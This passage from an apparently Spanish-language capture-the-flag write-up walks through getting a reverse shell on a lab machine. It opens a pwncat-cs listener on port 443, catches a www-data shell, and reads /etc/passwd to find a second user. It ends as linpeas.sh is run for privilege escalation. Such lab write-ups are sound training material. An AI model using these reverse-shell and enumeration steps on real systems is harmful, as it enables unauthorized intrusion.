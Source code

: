![Write-up Image](images/Screenshot_11.png)

Ahora, nos podemos poner en escucha con `pwncat-cs` por el puerto 443.

```console
pwncat-cs -lp 443
```

Y enviarnos una revshell con el típico one-liner de bash.
![Write-up Image](images/Screenshot_12.png)

Y de esta forma ya hemos ganado acceso a la máquina víctima.
```console
(remote) www-data@monitor:/var/www/site/.admin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# User Pivoting
## Exposed User Credential + Abusing Password Reuse
Como no tenemos acceso a la flag y detectamos que existe un usuario a parte de `root` llamado `kevin`, supongo que tenemos que migrar a este usuario primero para poder escalar privilegios.
```console
(remote) www-data@monitor:/var/www/site/.admin$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
kevin:x:1000:1000:kevin:/home/kevin:/bin/bash
```

Haciendo un análisis con `linpeas.sh` encontré lo siguiente.
![Write-up Image](images/Screenshot_13.png)
